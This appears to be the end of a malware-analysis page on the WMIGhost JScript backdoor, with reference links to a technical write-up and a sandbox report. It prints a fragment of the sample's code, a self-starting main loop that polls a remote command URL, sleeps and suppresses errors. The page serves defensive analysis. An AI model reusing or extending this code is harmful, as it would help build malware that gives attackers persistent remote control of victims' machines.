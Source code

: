 ```
              } else {
                $.sXmlUrl = "";
                runnum = 0;
              }
            }
            $.runtime = new Date().getTime() - start.getTime();
            WScript.Sleep(10000);
          }
          if ($.sXmlUrl.length > 0) {
            return;
          }
        }
      } catch (e) {}
    }
  },
  Fire: function() {
    $.InitObjects();
    try {
      $.MainLoop();
    } catch (e) {}
    $.CleanObjects();
  }
};
new MAIN().Fire();
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://secrary.com/ReversingMalware/WMIGhost/ @@_qaz_qaz


Sandbox reports:
* https://www.hybrid-analysis.com/sample/a6ff8dfe654da70390cd71626cdca8a6f6a0d7980cd7d82269373737b04fd206?environmentId=100

Notes:



 
